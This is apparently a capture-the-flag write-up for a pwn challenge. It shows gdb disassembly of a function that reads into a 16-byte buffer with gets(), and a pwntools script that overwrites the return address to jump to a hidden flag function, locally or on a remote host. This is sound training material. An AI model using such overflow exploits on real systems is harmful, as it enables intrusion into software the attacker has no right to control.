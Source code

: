 # Dat Overflow Dough

> Pwn

We are provided with a bunch of files:

- `code-review.md`: tells that the memory addresses of functions are static
- `recipe.c`: tells that `vulnerable_dough_recipe()` is prone to buffer overflow; `secret_dough_recipe()` is the function we need to call to get the flag
- `exploit.py`: sample pwntools code to overwrite return address
- `exploit`: binary
- `flag.txt`: redacted file to test payload locally

```gdb
(gdb) set disassembly-flavor intel
(gdb) disas vulnerable_dough_recipe 
Dump of assembler code for function vulnerable_dough_recipe:
   0x00000000004011ff <+0>: endbr64
   0x0000000000401203 <+4>: push   rbp
   0x0000000000401204 <+5>: mov    rbp,rsp
   0x0000000000401207 <+8>: sub    rsp,0x10
   0x000000000040120b <+12>:    lea    rax,[rip+0xe06]        # 0x402018
   0x0000000000401212 <+19>:    mov    rdi,rax
   0x0000000000401215 <+22>:    call   0x401080 <puts@plt>
   0x000000000040121a <+27>:    lea    rax,[rbp-0x10]
   0x000000000040121e <+31>:    mov    rdi,rax
   0x0000000000401221 <+34>:    mov    eax,0x0
   0x0000000000401226 <+39>:    call   0x401090 <gets@plt>
   0x000000000040122b <+44>:    nop
   0x000000000040122c <+45>:    leave
   0x000000000040122d <+46>:    ret
End of assembler dump.
```

Buffer of length **0x10**

```gdb
(gdb) disas secret_dough_recipe 
Dump of assembler code for function secret_dough_recipe:
   0x00000000004011b6 <+0>: endbr64
```

Test it locally:

```python
from pwn import *

RECIPE_BUFFER_SIZE = 0x10
RBP_SIZE = 0x8
SECRET_ADDRESS = 0x00000000004011b6
PROMPT = ""

USE_REMOTE = False
REMOTE_HOST = ""
REMOTE_PORT = 0

if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT, ssl=True)
else:
    e = ELF("./recipe")
    io = e.process()

payload = b"A" * RECIPE_BUFFER_SIZE
payload += b"B" * RBP_SIZE
payload += p64(SECRET_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```

Set `USE_REMOTE`, `REMOTE_HOST`, `REMOTE_PORT` to run it remotely and get the flag
